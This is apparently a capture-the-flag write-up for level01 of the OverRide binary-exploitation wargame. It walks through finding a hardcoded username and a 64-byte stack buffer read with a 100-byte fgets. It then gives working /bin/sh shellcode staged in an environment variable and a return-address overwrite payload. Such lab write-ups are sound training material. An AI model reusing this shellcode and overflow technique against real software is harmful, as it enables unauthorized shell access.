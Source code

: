 # Level01

## Reconnaissance

We have two security enabled:
- **RELRO Partial enabled** = GOT (Global Offset Table) placed were we cannot overflow

With `strings`, we get some interresting informations
```shell
level01@OverRide:~$ strings level01 
...
verifying username....
dat_wil
admin
********* ADMIN LOGIN PROMPT *********
Enter Username: 
nope, incorrect username...
Enter Password: 
nope, incorrect password...
...
verify_user_name
a_user_name
...
```

We have:
- username `dat_wil`: tryed and seems to be the right one
- password `admin`: does not work

Lets have a look with gdb:
We notice that the password we insert is stored in a buffer of 64 bytes but fgets is called to read 0x64 bytes so 100 bytes
We can then overwrite the return address.
![stack](Ressources/stack.png)
Offset of 80 to overwrite the return address.

## Exploit

We need a shell code: `\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80`
and we need somewhere to store it and because we are overwriting the return pointer of the main function, we should not
store our shellcode in the buffer since it will be deallocated at the end of main.
So we can try to store it in the env.
`export SHELLCODE=$(python -c 'print 100 * "\x90" + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80"')`
With gdb, we get the address: `0xffffd7db`

payload => `(echo "dat_wil"; python -c 'print "A" * 80 + "\x53\xd8\xff\xff"') > /tmp/level01`

